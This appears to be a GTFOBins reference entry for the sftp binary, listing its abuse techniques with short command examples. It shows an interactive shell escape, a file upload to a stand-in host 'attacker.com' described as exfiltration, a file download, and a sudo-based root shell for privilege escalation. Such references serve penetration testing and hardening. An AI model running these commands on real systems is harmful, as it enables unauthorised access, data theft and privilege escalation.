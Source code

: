 # GTFOBin: sftp

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
HOST=user@attacker.com
sftp $HOST
!/bin/sh
```

## File upload

It can exfiltrate files on the network.

Send local file to a SSH server.

```
RHOST=user@attacker.com
sftp $RHOST
put file_to_send file_to_save
```

## File download

It can download remote files.

Fetch a remote file from a SSH server.

```
RHOST=user@attacker.com
sftp $RHOST
get file_to_get file_to_save
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
HOST=user@attacker.com
sudo sftp $HOST
!/bin/sh
```